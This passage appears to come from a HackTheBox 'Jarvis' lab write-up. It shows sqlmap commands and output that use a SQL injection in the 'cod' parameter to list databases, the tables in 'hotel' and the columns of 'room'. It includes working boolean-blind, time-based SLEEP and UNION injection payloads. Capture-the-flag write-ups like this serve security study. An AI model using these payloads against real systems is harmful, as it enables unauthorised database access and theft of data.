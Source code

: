 		Type: UNION query
		Title: Generic UNION query (NULL) - 7 columns
		Payload: cod=-3228 UNION ALL SELECT NULL,NULL,CONCAT(0x71626b6a71,0x554b49484f6b664e4e484452436e707246495353424c6444447a665144427579547863494d6f5946,0x7171627a71),NULL,NULL,NULL,NULL-- -
	
	
	available databases [4]:                       
	[*] hotel
	[*] information_schema
	[*] mysql
	[*] performance_schema
	```
2. Enumerate tables in `hotel` database
	```
	┌──(root💀kali)-[~/htb/jarvis/10.10.10.143/exploit]
	└─# sqlmap -r sqli.txt -p cod -D hotel --tables --output-dir=$(pwd)/sqlmap --batch
	
	
	Parameter: cod (GET)
		Type: boolean-based blind
		Title: AND boolean-based blind - WHERE or HAVING clause
		Payload: cod=1 AND 3554=3554
	
		Type: time-based blind
		Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
		Payload: cod=1 AND (SELECT 7164 FROM (SELECT(SLEEP(5)))EEJY)
	
		Type: UNION query
		Title: Generic UNION query (NULL) - 7 columns
		Payload: cod=-3228 UNION ALL SELECT NULL,NULL,CONCAT(0x71626b6a71,0x554b49484f6b664e4e484452436e707246495353424c6444447a665144427579547863494d6f5946,0x7171627a71),NULL,NULL,NULL,NULL-- -

	Database: hotel
	[1 table]
	+------+
	| room |
	+------+
	```
3. Enumerate columns in `room` table 
	```
	┌──(root💀kali)-[~/htb/jarvis/10.10.10.143/exploit]
	└─# sqlmap -r sqli.txt -p cod -D hotel -T room --columns --output-dir=$(pwd)/sqlmap --batch
	
	Parameter: cod (GET)
		Type: boolean-based blind
		Title: AND boolean-based blind - WHERE or HAVING clause
		Payload: cod=1 AND 3554=3554
	
		Type: time-based blind
		Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
		Payload: cod=1 AND (SELECT 7164 FROM (SELECT(SLEEP(5)))EEJY)
	
		Type: UNION query
		Title: Generic UNION query (NULL) - 7 columns
		Payload: cod=-3228 UNION ALL SELECT NULL,NULL,CONCAT(0x71626b6a71,0x554b49484f6b664e4e484452436e707246495353424c6444447a665144427579547863494d6f5946,0x7171627a71),NULL,NULL,NULL,NULL-- -
	